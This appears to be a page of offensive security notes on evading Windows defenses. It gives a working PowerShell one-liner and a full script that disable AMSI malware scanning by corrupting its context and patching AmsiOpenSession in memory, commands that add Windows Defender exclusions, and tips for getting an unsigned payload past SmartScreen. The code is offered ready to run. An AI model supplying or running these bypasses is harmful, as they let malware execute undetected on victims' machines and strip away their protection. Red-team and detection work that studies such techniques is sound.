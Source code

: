 #### _AMSI bypass:_
- Corrupt AmsiOpenSession: PS one\-liner that overwrites the context structure header and corrupts it and forces AmsiOpenSession to error out: ```$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)```
- Patch AMSI: save as script\.ps1 and run in PS session to bypass AMSI:
    ```PS
    function LookupFunc {
        Param ($moduleName, $functionName)
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp=@()
        $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)),$functionName))
    }
    
    function getDelegateType {
        Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void])
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
        return $type.CreateType()
    }
    
    [IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
    $oldProtectionBuffer = 0
    $vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
    $vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
    
    $buf = [Byte[]] (0x48, 0x31, 0xC0)
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
    
    $vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
    ```

#### _Exclusions:_
Most antivirus solutions allow you to define exclusions to on\-demand and real\-time scanning\. Windows Defender allows admins to add exclusions via GPO, or locally on a single machine.
- List the current exclusions \(can be handy to run via agentless technique on remote target\): ```Get-MpPreference | select Exclusion*```
- Add your own exclusion: ```Set-MpPreference -ExclusionPath "<path>"```

#### _Smartscreen:_
If Smartscreen is enabled and your payload.exe is not signed, don't download your hosted executable directly from a webserver. Smartscreen will "mark" the payload and make it impossible to execute without GUI access and/or high privileges. 

---